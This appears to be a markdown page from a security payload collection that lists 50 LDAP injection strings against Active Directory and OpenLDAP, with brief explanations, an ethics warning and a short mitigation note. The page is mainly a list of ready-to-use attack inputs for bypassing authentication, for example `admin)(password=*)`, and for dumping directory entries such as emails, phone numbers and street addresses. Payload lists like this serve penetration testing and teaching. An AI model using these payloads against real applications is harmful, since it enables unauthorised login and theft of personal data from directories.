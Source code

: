 ```yaml
---
title: "LDAP injection payload"
tags:
  - LDAP_injection
---
```


LDAP (Lightweight Directory Access Protocol) injection is a technique used to exploit vulnerabilities in applications that construct LDAP queries from user input, similar to SQL or NoSQL injection but targeting LDAP directories like Active Directory or OpenLDAP. Below is a list of 50 example LDAP injection payloads designed to test for vulnerabilities. These payloads manipulate LDAP filters to bypass authentication, extract data, or alter query behavior.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### LDAP Injection Payload Basics
LDAP queries often use filters in the format `(key=value)`, such as `(uid=user)(password=pass)`. Injection occurs when unsanitized user input is included in these filters. Payloads typically aim to:
- Bypass authentication (e.g., by making filters always true).
- Extract unauthorized data (e.g., by broadening search scopes).
- Exploit wildcard or logical operator behavior.

### LDAP Injection Payloads
The following payloads assume an LDAP query like `(uid=[user])(password=[pass])` or `(cn=[input])`. They are designed for common LDAP implementations (e.g., Active Directory, OpenLDAP). Adapt payloads based on the application’s query structure.

1. `admin)(objectClass=*)` - Closes the `uid` filter early and matches all objects.
2. `*)(objectClass=*)` - Matches all entries by appending a universal condition.
3. `admin)(|(objectClass=*))` - Uses OR to match any object after closing the filter.
4. `admin)(&(objectClass=*))` - Uses AND with a true condition to match all objects.
5. `*` - Wildcard to match any value for the attribute.
6. `admin*` - Matches usernames starting with "admin".
7. `*)(uid=*` - Attempts to match all user IDs by closing the filter.
8. `admin)(password=*)` - Bypasses password check by matching any password.
9. `admin)(!(objectClass=disabled))` - Excludes disabled accounts.
10. `admin)(|(uid=admin)(uid=user))` - OR condition to match multiple users.
11. `*)(cn=*)` - Matches all common names (cn) in the directory.
12. `admin)(&)` - Closes filter early with a true AND condition.
13. `admin)(|)` - Closes filter with a true OR condition.
14. `*)(givenName=*)` - Matches all entries with any given name.
15. `admin)(sAMAccountName=*)` - Targets Active Directory accounts.
16. `*)(mail=*)` - Matches all entries with any email address.
17. `admin)(userPassword=*)` - Matches any password for the user.
18. `*)(objectClass=user)` - Matches all user objects.
19. `admin)(!(cn=guest))` - Excludes specific users like "guest".
20. `*)(sn=*)` - Matches all entries with any surname.
21. `admin)(objectCategory=person)` - Matches person objects in Active Directory.
22. `*)(memberOf=*)` - Matches entries in any group.
23. `admin)(|(cn=admin)(cn=user))` - OR condition for multiple common names.
24. `*)(uidNumber=*)` - Matches all entries with any UID number.
25. `admin)(description=*)` - Matches entries with any description.
26. `*)(objectClass=group)` - Matches all group objects.
27. `admin)(!(password=wrong))` - Excludes specific passwords.
28. `*)(displayName=*)` - Matches all entries with any display name.
29. `admin)(|(objectClass=user)(objectClass=group))` - Matches users or groups.
30. `*)(homeDirectory=*)` - Matches entries with any home directory.
31. `admin)(&(uid=admin)(objectClass=*))` - Combines conditions to match admin.
32. `*)(telephoneNumber=*)` - Matches entries with any phone number.
33. `admin)(|(sAMAccountName=admin)(sAMAccountName=user))` - Active Directory OR condition.
34. `*)(gidNumber=*)` - Matches entries with any group ID number.
35. `admin)(!(objectClass=computer))` - Excludes computer objects.
36. `*)(title=*)` - Matches entries with any job title.
37. `admin)(|(mail=admin@*)(mail=user@*))` - Matches multiple email patterns.
38. `*)(objectClass=organizationalUnit)` - Matches organizational units.
39. `admin)(userAccountControl=512)` - Matches enabled Active Directory accounts.
40. `*)(department=*)` - Matches entries with any department.
41. `admin)(|(cn=*admin*)(cn=*user*))` - Wildcard match for common names.
42. `*)(postalCode=*)` - Matches entries with any postal code.
43. `admin)(!(sAMAccountName=guest))` - Excludes guest accounts in Active Directory.
44. `*)(objectClass=posixAccount)` - Matches POSIX account objects.
45. `admin)(|(objectCategory=person)(objectCategory=group))` - Matches people or groups.
46. `*)(company=*)` - Matches entries with any company name.
47. `admin)(password={MD5}*)` - Targets specific password hash formats.
48. `*)(streetAddress=*)` - Matches entries with any street address.
49. `admin)(|(uid=*)(cn=*))` - Matches any UID or CN.
50. `*)(objectClass=*)` - Matches all objects in the directory.

### Notes
- **Context-Specific**: Payloads depend on the LDAP schema (e.g., `uid` for OpenLDAP, `sAMAccountName` for Active Directory). Test the application’s attribute usage first.
- **Encoding**: For web applications, payloads may need URL encoding (e.g., `(` becomes `%28`).
- **Bypass Techniques**: Many payloads aim to make the filter always true (e.g., `objectClass=*`) or exclude invalid conditions (e.g., `!(cn=guest)`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize inputs, use parameterized LDAP queries, and validate user input to prevent injection. Avoid exposing LDAP filters to user input.

